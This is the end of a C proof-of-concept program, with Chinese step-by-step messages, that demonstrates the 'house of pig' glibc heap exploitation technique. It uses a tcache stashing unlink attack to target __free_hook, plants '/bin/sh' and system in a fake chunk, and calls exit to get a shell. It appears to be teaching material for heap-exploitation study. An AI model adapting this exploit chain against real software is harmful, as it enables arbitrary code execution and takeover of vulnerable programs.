 ```c

    strcpy((char*)(chunk_1 + 0x20), "/bin/sh");
    *(size_t*)(chunk_1 + 0x20 + 0x10) = (size_t)system;

    printf_color(GREEN, UNDEFINED, "............\n");
    printf_color(GREEN, UNDEFINED, "设置完成。\n\n");

    printf_color(RED, HIGHLIGHT, "第五步：通过tcache stashing unlink attack在tcache写入__free_hook附近地址。\n");
    printf_color(GREEN, UNDEFINED, "当赛题中只使用calloc时，只有在tcache中存放堆地址，才能让malloc分配到__free_hook。\n");
    printf_color(GREEN, UNDEFINED, "下面进行这种攻击的常规流程：\n");
    printf_color(GREEN, UNDEFINED, "首先分配9个chunk并释放，7个到tcache，2个到small bins。然后分配两个tcache chunk出来。\n");

    void* chunks[9];

    for(int i=0; i<7; i++)
        chunks[i] = malloc(0xF0);
    malloc(0x20);   // to avoid consolidate
    chunks[7] = malloc(0xF0);
    malloc(0x20);   // to avoid consolidate
    chunks[8] = malloc(0xF0);
    malloc(0x20);   // to avoid consolidate
    for(int i=0; i<9; i++)
        free(chunks[i]);
    malloc(0xF0);
    malloc(0xF0);
    malloc(0x100);

    printf_color(GREEN, UNDEFINED, "依次释放9个chunk，tcache中的chunk应该为：7->6->5->4->3->2->1。\n");
    printf_color(GREEN, UNDEFINED, "unsorted bin中的chunk应该为：9<->8。\n");
    printf_color(GREEN, UNDEFINED, "然后分配出来两个tcache chunk，再分配一个较大的chunk，让unsorted bin的两个chunk进入small bins。\n");
    printf_color(GREEN, UNDEFINED, "应该修改第9个chunk的bk指针为__free_hook附近地址。\n");
    printf_color(GREEN, UNDEFINED, "............\n");

    *(size_t*)((size_t)(chunks[8]) + 0x8) = __free_hook - 0x20;

    printf_color(GREEN, UNDEFINED, "修改完成，之后分配一个出来进行攻击。\n");
    calloc(1, 0xF0);

    printf_color(GREEN, UNDEFINED, "已经分配出来了一个chunk，现在0x100的tcache中的第一个chunk就是__free_hook附近的地址。\n\n");

    printf_color(RED, HIGHLIGHT, "第六步：调用exit函数触发house of pig漏洞。\n");
    printf_color(GREEN, UNDEFINED, "现在，所有的东西都已经布置好了，只需要一个exit函数，我们就能够执行预期的函数调用链并getshell。\n");
    exit(-1);
}
```
